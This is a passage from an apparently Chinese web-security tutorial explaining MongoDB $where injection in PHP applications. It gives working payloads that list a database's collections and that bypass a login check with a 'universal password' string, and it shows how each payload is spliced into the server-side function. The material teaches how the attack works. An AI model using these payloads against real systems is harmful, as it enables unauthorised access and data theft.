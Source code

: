 如下所示，发送以下数据后，如果有回显的话将获取当前数据库下所有的集合名：

```
username=1&password=1';(function(){return(tojson(db.getCollectionNames()))})();var a='1
```

- **MongoDB 2.4 之后**

MongoDB 2.4 之后 `db` 属性访问不到了，但我们依然可以构造万能密码。如果此时我们发送以下这几种数据：

```
username=1&password=1';return true//
或
username=1&password=1';return true;var a='1
```

如下图所示，成功查出所有的用户信息：

![image-20230513184736661](picture/image-20230513184736661.png)

这是因为发送 payload 进入 PHP 后的数据如下：

```
array(
    '$where' => "
    function() { 
        var username = '1';
        var password = '1';return true;var a='1';
        if(username == 'admin' && password == '123456'){
            return true;
        }else{
            return false;
        }
    }
")
```
